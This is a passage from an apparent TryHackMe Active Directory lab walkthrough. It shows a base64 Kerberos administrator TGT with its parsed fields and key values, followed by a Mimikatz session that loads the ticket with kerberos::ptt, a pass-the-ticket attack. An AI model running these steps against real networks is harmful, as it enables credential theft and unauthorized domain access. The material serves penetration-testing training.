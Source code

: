 ```shell-session
       
             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
       
         ServiceName              :  krbtgt/za.tryhackme.loc
         ServiceRealm             : ZA.TRYHACKME.LOC
         UserName                 : Adminsitrator
         UserRealm                : ZA.TRYHACKME.LOC
         StartTime                :  2/6/2022 5:54:46 PM
         EndTime                  :  2/7/2022 3:54:46 AM
         RenewTill                :  2/13/2022 5:54:46 PM
         Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
         KeyType                  :  aes256_cts_hmac_sha1
         Base64(key)              :  Qr+FUX+/G2jHgAR2ssW11+lhaPlB6dMD8V5/rENwJVU=
         ASREP (key)              :  BF2483247FA4CB89DA0417DFEC7FC57C79170BAB55497E0C45F19D976FD617ED
```

Now we can use Mimikatz to load the TGT and authenticate to THMDC:

```shell-session
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt administrator.kirbi

* File: 'administrator.kirbi': OK

mimikatz # exit
Bye!
```